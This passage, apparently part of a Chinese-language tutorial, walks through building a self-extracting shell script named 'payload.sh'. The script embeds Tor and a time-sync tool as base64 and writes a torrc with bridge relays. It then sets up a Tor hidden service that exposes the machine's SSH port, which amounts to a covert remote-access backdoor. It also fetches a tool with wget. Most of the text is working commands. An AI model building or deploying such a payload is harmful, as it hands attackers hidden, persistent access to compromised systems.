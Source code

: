     
    
    #!bash
    mkdir ~/payload
    cp tor torrc ~/payload
    cd ~/payload
    

还有一个重要的组件要添加到安装文件当中。因为Tor的运行要求系统有一个准确的时间。一个方法是，从一些知名网站使用的HTTP头解决。当你发送一个HTTP请求到Web服务器时，一些Web服务器会在它的响应中添加上当前时间。我们可以把系统时间调整到这个时间（需要root权限）。这一切都可以通过下面的perl脚本搞定：

    
    
    #!bash
    wget http://www.rkeene.org/devel/htp/mirror/archive/perl/htp-0.9.3.tar.gz
    tar xzvf htp-0.9.3.tar.gz
    cp htp-0.9.3/sbin/htpdate-light .
    

现在运行`sudo ./htpdate-light`跟Google HTTP服务器进行时间同步。

接着对文件进行压缩以减少安装文件的体积：

    
    
    #!bash
    tar cvzf binaries.tar.gz tor htpdate-light
    

现在我们创建一个安装脚本。在”payload.sh“脚本上把tar文件的base64编码保存到”torbin“变量。

    
    
    #!bash
    echo '#!/bin/sh' > payload.sh
    echo -n 'torbin=' >> payload.sh
    cat binaries.tar.gz | base64 -w 0 >> payload.sh
    

然后用你喜欢的编辑器打开payload.sh，把下面的指令追加进去：

    
    
    echo $torbin | base64 -d > binaries.tar.gz
    tar xzvf binaries.tar.gz
    rm binaries.tar.gz
    chmod +x tor
    echo '
    Bridge 176.182.30.145:443 DE54B6962AB7ECBB88E8BC58BEA94B6573267515
    Bridge 37.59.47.27:8001 E0671CF9CB593F27CD389CD4DD819BF9448EA834
    Bridge 192.36.27.122:55626 35E199EFB98CDC9D3D519EA4F765C021A216F589
    UseBridges 1
    SocksPort 9050
    SocksListenAddress 127.0.0.1
    HiddenServiceDir ./.hs/
    HiddenServicePort 2222 127.0.0.1:22
    ' > ./torrc
    perl ./htpdate-light google.com
    ./tor -f ./torrc
    

我不建议在当前目录运行”payload.sh“。因为它会覆盖你的其它二进制文件。如果想测试的话把它拷贝到/tmp/目录下运行。
